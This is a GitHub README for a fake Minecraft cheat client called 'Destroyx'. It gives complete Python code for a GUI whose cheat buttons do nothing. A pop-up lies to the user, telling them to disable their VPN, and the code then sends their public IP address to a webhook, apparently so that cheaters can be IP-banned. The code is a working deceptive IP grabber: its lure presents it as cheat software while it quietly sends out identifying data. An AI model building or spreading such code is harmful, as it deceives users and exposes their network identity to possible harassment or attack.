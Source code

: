 # fake-minecraft-cheat
A software used to get the cheaters ip and ip ban them in servers.
# DISCLAIMER
This is just for educational purposes don't hack anybody.
# About
This cheat is a software which sends the ip to a webhook and then minecraft servers can ip ban them.
# Modify
Clone
```sh
git clone https://github.com/shourgamer2/fake-minecraft-cheat
```
How the code works 
import
```python
import tkinter 
from tkinter import *
from tkinter import messagebox
import socket
from requests import get
import requests
import os 
```
Load function
```python
def load():
    messagebox.showinfo("Load", "Loading,We will check your system and if your system is fine we will load the cheats")
```
Alert to make sure cheaters don't fake their ip
```python
messagebox.showinfo("No vpn", "We use a third party api to inject the cheats and the api does not work if vpn is active.Sorry you have to do this as destroyx is not a modified client its a app not a client so we have to use a api ")
```
Send it
```python
ip = get('https://api.ipify.org').text
webhookURL = ''
hostname = socket.gethostname()    
IPAddr = socket.gethostbyname(hostname) 
# Build the structure  of  the message 
data = {
    'username': 'ip',
    'embeds': [{
        'title': 'ip found',
        'description': "ip " + ': ' + ip,
    }]
}
# Send it 
result = requests.post(webhookURL, json = data)

try:
    result.raise_for_status()
except:
    pass
```
Window
```python
root = Tk()
root.title("Destroyx")
root.geometry("400x400")
root.iconbitmap("appicon.ico")
# Wigets
Heading = Label(text="Destroyx").pack()
cheatno1 = Button(text="Aimbot",command=load).pack()
cheatno2 = Button(text="Auto Mine",command=load).pack()
cheatno3 = Button(text="Auto kill",command=load).pack()
cheatno4 = Button(text="Auto win (bedwars only)",command=load).pack()
cheatno5 = Button(text="Auto win (Skywars only)",command=load).pack()
cheatno6 = Button(text="Auto bridge ",command=load).pack()
cheatno7 = Button(text="Free sword",command=load).pack()
cheatno8 = Button(text="Invisible",command=load).pack()




# Run it 
root.mainloop()
```
